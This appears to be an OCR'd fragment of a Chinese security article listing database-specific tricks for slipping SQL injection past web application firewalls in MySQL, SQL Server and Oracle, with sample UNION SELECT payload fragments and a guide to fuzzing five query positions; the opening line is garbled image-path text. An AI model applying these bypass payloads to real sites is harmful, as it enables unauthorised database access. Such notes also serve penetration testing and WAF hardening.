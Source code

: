 , = Ь //,号的宽字节

数据库特性

1、Mysql技巧

（1）mysql注释符有三种：\#、/\*...\*/、-- ... (注意--后面有一个空格)

（2）空格符:[0x09,0x0a-0x0d,0x20,0xa0]

（3）特殊符号：%a 换行符

可结合注释符使用%23%0a，%2d%2d%0a。

（3）内联注释：

/\*!UnIon12345SelEcT\*/ 1,user() //数字范围 1000-50540

（4）mysql黑魔法

select{x username}from {x11 test.admin};

2、SQL Server技巧

（1）用来注释掉注射后查询的其余部分：

/\* C语言风格注释

\-- SQL注释

; 00％ 空字节

（2）空白符：[0x01-0x20]

（3）特殊符号：%3a 冒号

id=1 union:select 1,2 from:admin

（4）函数变形：如db_name[空白字符]()

3、Oracle技巧

（1）注释符：--、/\*\*/

（2）空白字符：[0x00,0x09，0x0a-0x0d,0x20]

4、更多特性

那些代码层防护，只能用数据库特性来正面怼，一般一个SQL语句组成包括如下几个位置：

select \* from admin where
id=1【位置一】union【位置二】select【位置三】1,2,db_name()【位置四】from【位置五】admin

通过对常见的5个位置进行FUZZ，可以探索更多能够绕过WAF的数据库特性。

[WAF
Bypass数据库特性（Mysql探索篇）](http://mp.weixin.qq.com/s?__biz=MzA3NzE2MjgwMg==&mid=2448903977&idx=1&sn=008229fe76b96e4a229a3a4144fcb284&chksm=8b55df74bc225662a50c05b4e7a1a911e177e3e276658571c0438bba803a69fff0e1748f4812&scene=21#wechat_redirect)

[WAF
Bypass数据库特性（MSsql探索篇）](http://mp.weixin.qq.com/s?__biz=MzA3NzE2MjgwMg==&mid=2448903991&idx=1&sn=6bd5b6988dc0464f0a3170de6d5e3cae&chksm=8b55df6abc22567ce93b042363a40f7c78775a95ce37232f5983c361993ef23b0f07ef2515b9&scene=21#wechat_redirect)
